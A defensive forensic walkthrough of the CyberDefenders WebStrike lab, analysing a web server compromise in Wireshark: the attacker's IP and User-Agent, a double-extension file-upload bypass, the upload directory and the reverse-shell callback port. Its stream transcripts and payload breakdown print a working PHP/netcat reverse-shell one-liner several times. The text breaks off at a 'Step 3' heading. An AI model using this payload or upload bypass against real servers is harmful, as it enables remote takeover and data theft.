








# WebStrike — Investigating a Web Server Compromise with Wireshark

> **CyberDefenders · Network Forensics · Wireshark · Easy**  
> [Challenge: WebStrike](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)

## Case at a glance

| | Finding |
|---|---|
| **Lab** | [CyberDefenders — WebStrike](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/) |
| **Evidence** | Wireshark packet-capture analysis: HTTP streams, TCP Conversations, reverse-shell output |
| **Suspected source** | `117.11.88.124` (geolocation reported as **Tianjin**; not an attribution to a person) |
| **Affected web server** | `24.49.63.79` / `shoporoma.com` |
| **Initial compromise** | Malicious PHP upload `image.jpg.php` through `/reviews/upload.php` |
| **Command channel** | Victim `24.49.63.79:54448` → attacker `117.11.88.124:8080` (TCP stream 13) |
| **Exposed file** | `/etc/passwd` returned as reverse-shell output |
| **Separate HTTP attempt** | TCP stream 14 submitted only **11 bytes** (`/etc/passwd`); server replied **501** |

**Central finding:** The file contents were disclosed through the established reverse-shell connection. The subsequent HTTP POST did **not** submit those contents. Treating both transmissions as the same event would give the wrong incident assessment.

### Contents

1. [Identify the suspicious source and reported city](#1-locate-the-suspicious-client-and-assess-its-geolocation)
2. [Find the HTTP User-Agent](#2-identify-the-http-user-agent)
3. [Compare the failed and accepted uploads](#3-investigate-the-malicious-file-uploads)
4. [Establish the uploaded file’s directory](#4-determine-the-web-accessible-upload-directory)
5. [Decode the reverse shell and verify its network connection](#5-identify-the-reverse-shell-destination-port-and-confirm-remote-command-execution)
6. [Investigate `/etc/passwd` and the attempted HTTP transfer](#6-identify-the-targeted-file-and-distinguish-two-transfer-mechanisms)
7. [Findings and timeline](#findings-and-verification-status) · [Evidence files](#evidence-files-included-in-this-repository) · [Defensive lessons](#detection-and-defensive-lessons) · [References](#references)

### How to read this walkthrough

Each finding follows **question → why we looked there → exact Wireshark action → captured evidence → interpretation → relevant theory**. All five supplied stream transcripts are included as searchable text in [`evidence/`](evidence/); long transcripts are expandable in this README so the explanations remain readable. Wireshark screenshots are in [`assets/`](assets/).

The stream IDs and packet numbers are **specific to this lab capture**. In another PCAP, always discover the correct connection from observable indicators (IP, port, method, filename and timing), not by assuming that “stream 13” will identify a reverse shell.

## Investigation overview

WebStrike concerns a suspected compromise of a web server. The investigation follows network traffic to identify the external source, its HTTP client, an uploaded malicious script and the ensuing interactive reverse shell, account enumeration and attempted HTTP exfiltration. The objective is not simply to complete challenge questions: it is to show **how each conclusion follows from observable network evidence**.

A packet capture (`.pcap`/`.pcapng`) preserves packets visible at a particular monitoring point. If an application protocol is unencrypted, Wireshark can reveal headers, requests, responses, file contents and sometimes even commands. It cannot necessarily establish what happened on the server's filesystem or prove an individual's identity. Encrypted sessions, missing packets and traffic outside the capture point impose further limits.

**Our evidence standard:** Separate (1) a *lab-confirmed answer*, (2) a *repeatable method*, and (3) *packet-level evidence actually inspected*. A successful quiz answer is not a Wireshark screenshot.

### Our investigative reasoning: a reusable workflow

We did **not** begin by guessing answers from CyberDefenders' character masks. Each observation provided a new lead that could be checked elsewhere in the capture:

| Starting evidence | Question it raises | Next Wireshark action | What we learn |
|---|---|---|---|
| External HTTP client contacts `/reviews/` | Which client and requests are suspicious? | Endpoints / Conversations → filter `http.request` | Relevant IP pair, methods, paths and headers |
| Upload rejected as `image.php` | Was the attacker testing validation? | Follow the rejected and successful POST streams | The file was accepted only after adding `.jpg` |
| Accepted upload includes PHP calling `nc ... 8080` | Did the victim call back? | Filter on destination IP and port; inspect TCP Conversations | Connection matching the payload, leading to stream 13 |
| GET for `/reviews/uploads/image.jpg.php` | Was the uploaded script invoked? | Follow that request, correlate timestamps and shell activity | Execution strongly corroborated by the immediate callback and working shell |
| Interactive shell shows `cat /etc/passwd` | Did data leave the host? | Read both directions of the command stream | Account records visible over the victim-to-attacker channel |
| Shell contains a `curl` URL on port 443 | Was there a second exfiltration channel? | Search for that destination; follow matching HTTP stream | An 11-byte path was sent; receiver rejected POST |

**General rule:** A request proves an attempt; a response can establish what the application reported; a matching new connection supports execution; and the actual *bytes in a stream* tell us what data was transmitted. Correlate all four before claiming a successful compromise or data transfer.

## 1. Locate the suspicious client and assess its geolocation

**Question:** From which city did the attack originate?

**Lab-confirmed answer: Tianjin, China.** More precisely, an IP geolocation lookup associated the suspicious source IP with Tianjin. This does **not** establish that the human attacker was physically in that city.

### Reconstructing the investigation

1. Open the capture and visit **Statistics → Endpoints → IPv4**. This lists the IP addresses present and their packet/byte counts. It is an inventory, **not** a list of malicious addresses.
2. Open **Statistics → Conversations → IPv4** and **Statistics → Conversations → TCP**. These display communicating pairs, ports, traffic volumes and, for TCP, conversation timing. Identify an external client initiating traffic toward the web server.
3. Filter for HTTP GET requests:

   ```wireshark
   http.request.method == "GET"
   ```

4. Inspect the **Source** and **Destination** columns. Expand **Internet Protocol Version 4 → Source Address / Destination Address**. For this case, later malicious POST/GET requests identify **117.11.88.124** as the attack source and **24.49.63.79** as the web server. The mere presence of an external IP is not proof of an attack; attribution to the malicious activity comes from its HTTP content and subsequent traffic.
5. Look up that IP using an external geolocation service (the lab environment does not have internet access). Record the lookup provider, date and resulting city. Do **not** substitute an invented IP address in the report.

### Relevant theory — IP addresses and geolocation

An IPv4 address identifies a network interface or translation endpoint in an IP conversation, not a person. **Private addresses** such as `10.0.0.0/8`, `172.16.0.0/12` and `192.168.0.0/16` are not globally routable on the public internet. Public addresses may be assigned to hosting providers, VPN exits, proxies, residential connections or other infrastructure.

IP geolocation databases estimate a public IP's location using registration, routing, commercial and measurement data. Their **city-level results are approximate**, can disagree between providers and can change. A more defensible finding is *“the source IP geolocated to Tianjin according to the chosen provider”*, not *“the attacker was in Tianjin.”* A city is also not a reliable indicator for indiscriminate geo-blocking.

**Recorded:** source IP `117.11.88.124`; target web server `24.49.63.79`. **Still needed:** specific IP-geolocation provider and lookup date. A reported Tianjin location is not proof of the operator’s actual location.



*Figure 1. Saved challenge confirmation. This shows the accepted answer and hints, not raw packet evidence.*

## 2. Identify the HTTP User-Agent

**Question:** What was the suspicious client's complete User-Agent?

**Lab-confirmed answer:**

```text
Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

### Reconstructing the investigation

1. Filter for HTTP GET requests:

   ```wireshark
   http.request.method == "GET"
   ```

2. Select a request attributed to the suspicious source IP. In the **Packet Details** pane, expand **Hypertext Transfer Protocol**.
3. Find the **User-Agent** request header. Copy the **entire value**, including spaces, parentheses, product versions and punctuation.
4. Check whether the same value appears on other requests from that source; do not assume all traffic from an IP necessarily belongs to one browser or operator.

An additional filter, useful once the source address is known:

```wireshark
http.user_agent && ip.src == <source-ip>
```

Replace `<source-ip>` with the actual dotted-decimal IP address before applying this example.

### Relevant theory — HTTP request headers

An HTTP request typically includes a **method** (`GET`, `POST`), a **target** (path and query string), a **Host** header and optional metadata such as `User-Agent`. A GET commonly retrieves a resource; a POST commonly submits data, but the method alone does not determine whether a request is benign or malicious.

The User-Agent here *claims* a Firefox 115 client on 64-bit Linux (`X11; Linux x86_64`). `Gecko/20100101` is a browser compatibility token; `rv:109.0` is part of the claimed rendering-engine identification. These tokens are **client-supplied text**. They may help correlate requests but are easy to spoof and should not be treated as reliable operating-system attribution.

**Detection implication:** A rule based only on this exact User-Agent is weak: legitimate clients may share it, and an attacker can change it. Stronger detection combines request paths, uploaded content, response behaviour, source context and subsequent connections.

**Evidence now available:** the full header appears in the supplied POST transcripts (TCP streams 4 and 5) and GET transcript (TCP stream 12). For a tighter chain of custody, cite a representative individual frame in the original capture.



*Figure 2. Saved challenge confirmation of the accepted User-Agent.*

## 3. Investigate the malicious file uploads

**Question:** Which malicious web-shell filename was successfully uploaded?  
**Finding:** `image.jpg.php` — **application-reported success**, corroborated by a later request for the same filename.

### Reproducible Wireshark workflow

1. Apply `http.request.method == "POST"` to list POST requests. The relevant HTTP upload endpoint is `/reviews/upload.php`.
2. Select **frame 53**, right-click → **Follow → HTTP Stream** (**TCP stream 4**). Inspect the multipart field named `uploadedFile` and **the HTTP response body**.
3. Repeat for **frame 63** → **Follow → HTTP Stream** (**TCP stream 5**).
4. Compare filename, MIME type, file content and server response. The crucial difference is the filename; the PHP code remains the same.
5. Corroborate the upload by filtering `http.request.uri contains "image.jpg.php"` and examining the subsequent GET request (section 4).

### Two attempts, one changed filename

| | First attempt | Second attempt |
|---|---|---|
| Request frame | **53** | **63** |
| TCP stream | **4** | **5** |
| Relative request time | **26.922481 s** | **49.758143 s** |
| Endpoint | `POST /reviews/upload.php` | `POST /reviews/upload.php` |
| Uploaded filename | `image.php` | `image.jpg.php` |
| Declared MIME type | `application/x-php` | `application/x-php` |
| File contents | PHP reverse-shell command | Same PHP reverse-shell command |
| HTTP status | `200 OK` | `200 OK` |
| Application response | `Invalid file format.` | `File uploaded successfully` |

The evidence is consistent with a **double-extension file-upload validation bypass**: inserting `.jpg` before the final `.php` extension changed the server's response. **We cannot identify the specific vulnerable validation logic from network traffic alone**; a poorly implemented pattern, substring check or other application rule could explain the result.

### The decisive response excerpts

**Stream 4 — rejected:**

```http
Content-Disposition: form-data; name="uploadedFile"; filename="image.php"
Content-Type: application/x-php

HTTP/1.1 200 OK

Invalid file format.
```

**Stream 5 — accepted:**

```http
Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"
Content-Type: application/x-php

HTTP/1.1 200 OK

File uploaded successfully
```

**Interpretation:** An HTTP `200 OK` is not proof that an application action succeeded. Both attempts yielded `200 OK`; only the response **body** distinguishes rejection from reported acceptance. Acceptance does not, by itself, prove disk persistence or code execution.

### Full original HTTP stream transcripts

These are copied from the supplied **Follow HTTP Stream** text, retaining the relevant request headers, multipart boundaries, form fields, PHP payload and server responses. No PCAP-level retransmission verification has been performed. They are also stored as standalone text files for searching and citation.

<details>
<summary><strong>TCP stream 4 — first attempt: image.php (rejected)</strong> · full transcript</summary>

```http
POST /reviews/upload.php HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------240702681933131672661702936221
Content-Length: 688
Origin: http://shoporoma.com
Connection: keep-alive
Referer: http://shoporoma.com/reviews/
Upgrade-Insecure-Requests: 1

-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="name"

asd
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="email"

asd@asd.com
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="review"

asd
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="uploadedFile"; filename="image.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------240702681933131672661702936221--
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:43:57 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 20
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Invalid file format.
```

[Open plain-text transcript](evidence/tcp-stream-04-rejected-upload.txt)
</details>

<details>
<summary><strong>TCP stream 5 — second attempt: image.jpg.php (accepted)</strong> · full transcript</summary>

```http
POST /reviews/upload.php HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26176590812480906864292095114
Content-Length: 687
Origin: http://shoporoma.com
Connection: keep-alive
Referer: http://shoporoma.com/reviews/
Upgrade-Insecure-Requests: 1

-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="name"

asd
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="email"

asd@asd.com
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="review"

asd
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------26176590812480906864292095114--
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:44:19 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 26
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

File uploaded successfully
```

[Open plain-text transcript](evidence/tcp-stream-05-accepted-upload.txt)
</details>



*Figure 4. TCP stream 4: the server responds `Invalid file format.` despite HTTP `200 OK`.*



*Figure 5. TCP stream 5: adding `.jpg` before `.php` changes the application response to `File uploaded successfully`.*

### Relevant theory — MIME multipart and filename validation

`multipart/form-data` is a format for submitting multiple form fields in a single HTTP request. **Boundaries** separate fields; each part can carry `Content-Disposition`, a `name`, an optional `filename`, a declared `Content-Type`, and its content. In this capture, the benign-looking `name`, `email` and `review` fields accompany a malicious `uploadedFile` part.

The filename and `Content-Type` are supplied by the **client**, so neither is trustworthy as a server-side validation signal. In both uploads, `Content-Type: application/x-php` labels the content as PHP, while the second filename deceptively embeds `.jpg`. A secure application should enforce an allowlist, inspect content where appropriate, assign safe server-side names and prevent uploads from being executed as scripts.

The final `.php` extension matters because a PHP-enabled server **may** execute the content when requested, depending on its configuration. The double extension alone does not prove which validation rule was bypassed.

### Relevant theory — reading the PHP reverse-shell payload

The malicious part contains:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

| Component | Meaning | Investigative value |
|---|---|---|
| `<?php ... ?>` | PHP script delimiters | Server-side code, not image data. |
| `system(...)` | PHP runs an OS shell command | Potential server-side command execution. |
| `rm /tmp/f` | Removes an existing path | Prepares the named-pipe path for reuse. |
| `mkfifo /tmp/f` | Creates a FIFO (named pipe) | Enables communication between command-line processes. |
| `cat /tmp/f \| /bin/sh -i` | Feeds data from FIFO into an interactive shell | Commands arriving via the pipe can be interpreted by a shell. |
| `2>&1` | Routes standard error to standard output | Combines error and normal command output. |
| `nc 117.11.88.124 8080` | Netcat contacts remote IP and port | Reveals the intended **reverse-connection destination**. |
| `>/tmp/f` | Writes Netcat output into the FIFO | Completes the intended input/output feedback loop. |

This is a **reverse-shell payload**, embedded in a PHP file uploaded through a reviews form. The direction is important: the web server is intended to connect **outbound** to the attacker-controlled listener. Compare the intended destination with the actual TCP conversation in section 5.

**Transferable method:** Even without recognising a specific payload, look for OS execution functions (e.g. `system`), shell utilities, network clients (`nc`), IP/port literals and redirection operators; then test those indicators against network evidence.



*Figure 6. The challenge accepts `image.jpg.php`. The stronger forensic finding comes from comparing the two complete HTTP streams above.*

## 4. Determine the web-accessible upload directory

**Question:** Which directory is used to store the uploaded files?  
**Finding:** `/reviews/uploads/` — the **web-accessible URL directory**. Stream 13 subsequently identifies the reverse shell’s current working directory as `/var/www/html/reviews/uploads`, independently supporting the likely filesystem location.

### Method: correlate upload, response and subsequent access

We already have the accepted filename `image.jpg.php`. Use:

```wireshark
http.request.uri contains "image.jpg.php"
```

**Frame 138** (relative time **84.150547 s**) contains this request on **TCP stream 12**:

```http
GET /reviews/uploads/image.jpg.php HTTP/1.1
Host: shoporoma.com
```

The filename is the same as in the accepted upload. The path preceding it, `/reviews/uploads/`, is therefore the relevant **requested URL directory**. This is more defensible than trying random directory names from a challenge answer mask.

<details>
<summary><strong>TCP stream 12 — request for the uploaded shell</strong> · full captured application text</summary>

```http
GET /reviews/uploads/image.jpg.php HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://shoporoma.com/reviews/uploads/
Upgrade-Insecure-Requests: 1
```

**No HTTP response appears in the supplied Follow Stream window** (`1 client pkt(s), 0 server pkt(s)`). This absence is an observation about the **available stream**, not proof that the application returned an error or that the reverse shell failed.

[Open plain-text transcript](evidence/tcp-stream-12-shell-get.txt)
</details>


*Figure 7. TCP stream 12: GET request for the previously uploaded filename; no HTTP response is reconstructed in the supplied stream view.*

### What does this actually prove?

1. **Upload accepted according to the application:** stream 5 responded `File uploaded successfully`.
2. **Same filename later requested:** stream 12 requests `/reviews/uploads/image.jpg.php`.
3. **The path is therefore strongly supported as the web-accessible location the attacker targeted.**

A GET request alone would not prove the file existed. Here, the earlier success message and the nearly immediate reverse-connection traffic (section 5) give important corroboration, and the shell transcript in stream 13 additionally shows `pwd` returning `/var/www/html/reviews/uploads`. This is strong supporting host-side evidence because the PHP payload does not change directory. Strictly, `pwd` proves the shell’s current working directory, not a server configuration mapping or an on-disk audit of the uploaded file. URL routing, aliases, and symbolic links can still complicate exact path mappings.

**Useful distinction:** `/reviews/upload.php` is the **upload handler** (where the POST went); `/reviews/uploads/` is the **URL directory** used to access the submitted file afterward. They play different roles.



*Figure 8. Challenge-confirmed directory; distinguish this confirmation from the HTTP-stream evidence.*

## 5. Identify the reverse-shell destination port and confirm remote command execution

**Question:** Which attacker-side port did the uploaded malicious script target?  
**Finding: `8080`**, independently corroborated in the uploaded PHP and the observed TCP conversation.

### Step 1 — extract the indicator from the payload

The second upload contains the command:

```bash
nc 117.11.88.124 8080
```

When used as shown, Netcat (`nc`) takes the **destination address** followed by the **destination port**. Therefore the script is configured to contact the attacker's IP `117.11.88.124` on TCP **port 8080**. This establishes *intent*, not yet successful communication.

### Step 2 — verify matching traffic in Conversations

Open **Statistics → Conversations → TCP** and find the endpoint pair. The supplied export contains this row:

| Field | Observed value |
|---|---|
| Address A : Port A | `24.49.63.79:54448` (victim web server) |
| Address B : Port B | `117.11.88.124:8080` (remote listener) |
| Stream ID | **13** |
| Packets / total captured bytes | **162 / 14,233** |
| Relative start | **84.153968 s** |
| Duration | **107.222638 s** |
| A → B / B → A packets | **79 / 83** |
| A → B / B → A bytes | **8,648 / 5,585** |

**Important:** A/B are the endpoint ordering in the Wireshark table, not proof of initiator/responder roles. Inspect the **initial SYN** to establish who initiated the connection. The reverse-shell payload and close timing support the interpretation that the server called back, but the SYN has not yet been inspected in the supplied evidence.

The victim's `54448` is the TCP **source port** used for this session; the attacker-side `8080` is the **destination port configured in the malicious code**. Do not confuse TCP source/destination ports with `tcp.stream` IDs.

### Step 3 — correlate timing with attempted execution

